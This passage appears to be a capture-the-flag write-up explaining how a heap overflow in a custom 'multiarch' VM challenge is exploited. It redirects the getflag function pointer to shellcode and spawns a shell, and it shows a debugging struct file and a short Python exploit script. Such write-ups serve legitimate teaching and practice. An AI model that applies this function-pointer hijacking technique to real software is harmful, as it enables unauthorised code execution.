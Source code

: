 After finding the vulnerability, the exploitation part was relatively easy. My strategy was to
allocate some additional memory using the `EXPAND_MEM` syscall, getting a heap address located after the registers array.
Then, I used the overflow to modify that address to point to the VM structure, which is also on the heap.
Accessing the added memory would now access the VM structure, which could be used to overwrite the `getflag` argument in the struct with the `data` segment address.
By placing shellcode in the `data` segment and calling `PRINT_FLAG`, we could get a shell.

I also created a `struct.c` file and compiled it to `struct.o` so I could load DWARF struct symbols in GDB to make
debugging easier.
```c
#include <stdint.h>

struct __attribute__((packed)) MemSeg {
    void *data;
    uint32_t vaddr;
};

struct __attribute__((packed)) VM {
    void *mem1;
    void *mem2;
    void *mem3;
    void *mem4;
    uint64_t size;
    char *(*getflag)();
    uint8_t err_flag, mode_flag, FLAGS;
    uint32_t PC, SP, RA, RB, RC, RD;
    struct MemSeg add_mems[5];
    uint8_t mems_cnt;
};

struct VM vm;

int main() {
    return 0;
}

/*
file multiarch
add-symbol-file structs.o 0
brva 0x1333
c
set $vm = (struct VM*)$rax
c
*/
```

I wrote an assembler class in Python to make it easier and more understandable to create a VM file.
This is the exploit file, which is enough to get a shell and read the flag from the filesystem.
The full exploit file can be found here: [exploit.py](/blog/scripts/multiarch/exploit.py).
```py
asmb = Assembler()

asmb.stack_push(0)
asmb.stack_push_byte(6)
asmb.stack_syscall() # EXPAND_MEM
asmb.xor_imm(5, 0x370) # chaning address to point to VM*
asmb.ldr_imm(2, 0xa008) # reading lower part of data address
asmb.str_imm(2, 0xa028) # storing lower part of data address at getflag
asmb.ldr_imm(2, 0xa00c) # reading higher part of data address
asmb.str_imm(2, 0xa02c) # storing higher part of data address at getflag
asmb.stack_push_byte(5)
asmb.stack_syscall() # PRINT_FLAG
```
